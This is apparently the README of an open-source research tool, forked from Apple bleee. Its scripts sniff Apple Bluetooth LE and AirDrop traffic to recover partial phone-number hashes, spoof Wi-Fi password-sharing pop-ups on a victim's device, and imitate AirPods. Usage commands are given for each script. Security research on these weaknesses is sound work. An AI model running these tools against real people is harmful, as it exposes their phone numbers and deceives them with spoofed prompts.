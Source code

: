 # Airdrop Crazy
[![Python Version][python-image]][python-url]
[![License][license-image]][license-url]

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***

This project is a hard fork of the project created by the Hexway team called [Apple bleee](https://github.com/hexway/apple_bleee) 


## Requirements 
I have adapted those scripts deleting all the function that was not available and refactoring the scripts in order to use a more Pythonic and modern way to organize the code. Please read carefully the [OWL](https://github.com/seemoo-lab/owl) and [Opendrop](https://github.com/seemoo-lab/opendrop) documentation in order to understand what's going on underneath these scripts.
Also, you need for the airdrop part an **Active Monitor Network Card** as the Authors said, the **Atheros AR9280** should work but you can use the **TP-LINK Archer T2U/T1U** if you want a usb card.
We have tested the tool with Ubuntu 18.04 and Linux 5+ Kernel due to the TP-Link Archer requieremnets.

## Installation

```
# clone main repo
git clone https://github.com/ElevenPaths/Airdrop-Crazy && cd ./airdrop_crazy
sudo ./install.sh
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    XX:XX:XX:XX:XX:XX
```
Then make sure you have downloaded **owl** and you have a compatible network card that supports active framing.

There are two main ways to use the tool:

* **Server mode**: Follow the instructions to run the tool with the app and local server
* **CLI Scripts**: Run the scripts local with the cli


### Server Mode
In this mode, you need the companion iOS app to display the information, these are all the requirements:

* [Ngrok](https://ngrok.com): To expose the local server to the app, just follow the instructions in the webpage.
* [XCode](https://developer.apple.com/xcode/): To compile the SwiftUI project.

First you need to select the wirless interface in `views.py`, in the code line `airdrop_leak = AirdropLeak(iface="")`
Then you need to 

Now you just need to run the local server with ```bash bootstrap.sh``` or ```python3 app.py```.

And then scan the qr generated with the app.

![server](img/server.png)


### CLI: ble_read_script.py

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values.

![dev_status](img/dev_status.png)

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-t TTL] [-b BLE_IFACE] [-w W_IFACE] [-s] [-a]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -t TTL, --ttl TTL     Time To Live
  -b BLE_IFACE, --ble_iface BLE_IFACE
                        Bluetooth inteface
  -w W_IFACE, --w_iface W_IFACE
                        Wireless Interface
  -s, --ssid            Get SSID from request
  -a, --airdrop         Get info from AWDL airdrop
  -d, --debug           Debug mode

```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit



### CLI: airdrop_leak.py

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface. **Never use owl with the -N flag as it could lead into problems, always check if you have active monitor mode**

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-n NAME] [-i IFACE] [-p PHONE] [-m MAIL]

    AirPods advertise spoofing PoC
    ---chipik
    

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --name NAME  Name of the interface
  -i IFACE, --iface IFACE
                        Wireless inteface
  -p PHONE, --phone PHONE
                        phone
  -m MAIL, --mail MAIL  mail
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py
```

### CLI: adv_wifi.py


This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger a pop up message on the target device if he/she knows any phone/email that exists on the victim's device

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a WiFi password request, we'll need to specify any contact (email/phone) that exists in a victim's contacts and the SSID of a WiFi network the victim knows

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

### CLI: adv_airpods.py

This script mimics AirPods by sending `BLE` messages

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r] [-b BLE_IFACE]

    AirPods advertise spoofing PoC
    ---chipik
    

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          Send random charge values
  -b BLE_IFACE, --ble_iface BLE_IFACE
                        Bluetooth inteface
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```



### Api phone

This service allows to build a service to request the hashed phones, just update the generate_number/generate_hashes functions in views.py to adapt to your phone number requirements.

## Contacts

* [Lucas Fernandez](https://twitter.com/lucferbux)

* [Pablo Gonzalez](https://twitter.com/pablogonzalezpe)

[python-image]: https://img.shields.io/badge/Python-3.7-yellow
[python-url]: https://www.python.org
[license-image]: https://img.shields.io/badge/License-GPL-blue.svg
[license-url]: LICENSE



